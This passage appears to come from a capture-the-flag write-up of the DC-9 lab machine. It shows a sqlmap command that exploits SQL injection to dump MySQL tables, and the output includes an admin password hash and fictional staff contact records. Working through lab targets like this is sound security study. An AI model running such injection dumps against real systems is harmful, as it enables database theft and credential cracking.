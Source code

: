 Run the _req_ file in _sqlmap_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ sqlmap -r req --dump --batch --dbms=mysql --dbs
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.2#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:21:42 /2023-11-09/
[19:22:09] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[19:22:09] [INFO] starting 3 processes
[19:22:19] [WARNING] no clear password(s) found
Database: Staff
Table: Users
[1 entry]
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+

[19:22:19] [INFO] table 'Staff.Users' dumped to CSV file '/home/vagrant/.local/share/sqlmap/output/192.1
68.160.209/dump/Staff/Users.csv'
[19:22:19] [INFO] fetching columns for table 'StaffDetails' in database 'Staff'
[19:22:19] [INFO] fetching entries for table 'StaffDetails' in database 'Staff'
Database: Staff
Table: StaffDetails
[17 entries]
+----+-----------------------+----------------+------------+---------------------+-----------+----------
---------------------+
| id | email                 | phone          | lastname   | reg_date            | firstname | position
                     |
+----+-----------------------+----------------+------------+---------------------+-----------+----------
---------------------+
| 1  | marym@example.com     | 46478415155456 | Moe        | 2019-05-01 17:32:00 | Mary      | CEO
                     |
| 2  | julied@example.com    | 46457131654    | Dooley     | 2019-05-01 17:32:00 | Julie     | Human Res
ources               |
| 3  | fredf@example.com     | 46415323       | Flintstone | 2019-05-01 17:32:00 | Fred      | Systems A
dministrator         |
| 4  | barneyr@example.com   | 324643564      | Rubble     | 2019-05-01 17:32:00 | Barney    | Help Desk
                     |
| 5  | tomc@example.com      | 802438797      | Cat        | 2019-05-01 17:32:00 | Tom       | Driver
                     |
| 6  | jerrym@example.com    | 24342654756    | Mouse      | 2019-05-01 17:32:00 | Jerry     | Stores
                     |
```